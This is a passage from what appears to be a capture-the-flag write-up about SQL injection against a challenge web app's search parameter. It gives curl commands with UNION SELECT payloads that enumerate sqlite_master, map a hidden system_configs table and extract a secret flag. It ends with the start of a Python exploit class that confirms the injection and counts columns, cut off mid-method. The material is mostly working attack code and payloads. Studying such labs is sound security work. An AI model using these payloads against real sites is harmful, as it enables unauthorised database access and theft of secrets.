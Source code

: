 ```bash
curl -s "http://challs.0x4m4.com:8002/?search='+UNION+SELECT+1,+name,+sql,+'LOW',+type+FROM+sqlite_master+WHERE+type%3D'table'--"
```

This revealed several tables:
- `dissidents` (the main table being queried)
- `system_configs` (hidden table containing sensitive information)

### Analyzing Table Structure

Examining the structure of the hidden `system_configs` table:

```sql
' UNION SELECT 1, name, sql, 'LOW', type FROM sqlite_master WHERE name='system_configs'--
```

This revealed the table structure with columns like `config_name`, `config_value`, and `is_secret`.

## Exploitation Phase 3: Flag Extraction

### Direct Flag Extraction

With knowledge of the hidden table structure, I extracted the flag directly:

```sql
' UNION SELECT id, config_name, config_value, 'LOW', is_secret FROM system_configs--
```

```bash
curl -s "http://challs.0x4m4.com:8002/?search='+UNION+SELECT+id,+config_name,+config_value,+'LOW',+is_secret+FROM+system_configs--"
```

This query revealed the system configuration entries, including the flag stored as the `system_key` configuration value.

## Complete Exploitation Script

Here's my automated Python script for exploiting the vulnerability:

```python
#!/usr/bin/env python3
import requests
import re
from urllib.parse import quote

class RegimeMonitorExploit:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()
        
    def test_sql_injection(self):
        """Test for SQL injection vulnerability"""
        print("[*] Testing for SQL injection vulnerability...")
        
        # Test with simple quote
        test_payload = "'"
        response = self.session.get(f"{self.base_url}/?search={quote(test_payload)}")
        
        if "error" in response.text.lower() or "sqlite" in response.text.lower():
            print("[+] SQL injection vulnerability confirmed!")
            return True
        return False
    
    def determine_columns(self):
        """Determine the number of columns in the original query"""
        print("[*] Determining number of columns...")
```